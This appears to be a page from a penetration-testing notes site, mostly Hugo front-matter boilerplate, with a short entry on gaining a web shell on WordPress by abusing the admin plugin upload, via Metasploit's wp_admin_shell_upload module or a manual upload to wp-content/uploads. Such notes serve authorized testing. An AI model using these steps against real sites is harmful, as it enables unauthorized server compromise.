 ```yaml
---
### The title for the content.
title : "wpadmin plugin upload"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "wpadmin plugin upload"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "wpadmin plugin upload description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:47+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "wpadmin-plugin-upload"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## wpadmin plugin upload

Abuse the plugin function to upload a shell.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > show targets
    ...targets...
msf exploit(wp_admin_shell_upload) > set TARGET < target-id >
msf exploit(wp_admin_shell_upload) > show options
    ...show and set options...
msf exploit(wp_admin_shell_upload) > exploit
```

or simply login, go the plugins, upload a file and go the the WP upload folder (wp-content/uploads)